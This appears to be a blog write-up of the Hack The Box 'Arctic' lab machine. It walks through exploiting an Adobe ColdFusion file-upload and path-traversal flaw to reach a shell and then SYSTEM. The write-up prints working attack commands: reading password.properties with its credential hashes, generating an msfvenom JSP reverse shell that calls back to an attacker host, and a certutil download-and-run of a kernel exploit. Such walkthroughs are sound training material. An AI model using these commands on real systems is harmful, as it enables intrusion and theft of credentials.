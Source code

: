 ```yaml
---
title: "Arctic - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Arctic
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
---
```


## Arctic
![](https://kar0nx.github.io/assets/images/writeup/0d6275efbd5e48fcdc96e61b9724ae5e.webp)
 
## Reconnaissance

IP: 10.10.10.11
### NMAP

```
nmap -T4 -p- -A 10.10.10.11
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-09 10:39 EDT
Nmap scan report for 10.10.10.11
Host is up (0.031s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|8.1|Vista (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 Professional or Windows 8 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   31.16 ms 10.10.14.1
2   31.18 ms 10.10.10.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 260.10 seconds   
```

Nmap scan shows 3 open ports: 135, 49154 rpc and 8500 unknown. Let's check if it is related to http - http://10.10.10.11:8500 
## Website
### Site


![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250309154102.png)

Searching google for CFIDE i found that this is Adobe ColdFusion 

After researching, I find that this version of ColdFusion is vulnerable to an arbitrary file upload vulnerability.
https://www.exploit-db.com/exploits/14641

```
python2 14641.py 10.10.10.11 8500 ../../../../../../../lib/password.properties 

#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true

```

I use the Python script from Exploit-DB to exploit this vulnerability and upload a file that allows us to retrieve the password.properties file, which contains sensitive credentials.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250309155704.png)
## Gaining Access

I found great guide to get a reverse shell:
https://forum.hackthebox.com/t/python-coldfusion-8-0-1-arbitrary-file-upload/108
I copy this file to my machine as cold.py and generate a JSP shell using msfvenom:
https://www.revshells.com/

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.17 LPORT=1337 -f raw -o shell.jsp
```

```
python2 cold.py 10.10.10.11 8500  shell.jsp 
```

Next, I used the cold.py script to upload the JSP shell to the target machine via the vulnerable ColdFusion service:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250309163316.png)

start nc on your maching

```
nc -nvlp 1337
```

and execute reverse shell

```
http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250309163538.png)

We have shell, let's grab first flag:

```
c:\Users\tolis\Desktop>type user.txt
```

## Privilege Escalation

To start enumeration with windows-exploit-suggeste we need to copy the output of:

```
systeminfo
```

And paste in windows-exploit-suggester folder. 

```
python2 windows-exploit-suggester.py -d 2025-03-08-mssb.xls -i sysinfo.txt 
```

I found that machine is vulnerable to kernel exploit ms10-059 chimichurri. 
https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059%3A%20Chimichurri/Compiled/Chimichurri.exe
Get this compiled chimichurri.exe on your machine and host it via python server

```
python3 -m http.server 81
```

Download it on target machine

```
c:\Windows\Temp>certutil -urlcache -f http://10.10.14.17:81/Chimichurri.exe chimi.exe
```

And run (add your IP and port)

```
.\chimi.exe 10.10.14.17 443
```

set nc 

```
nc -nvlp 443
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250309170503.png)

we have system privilege, grab your flag.

```
c:\Users\Administrator\Desktop>type root.txt
```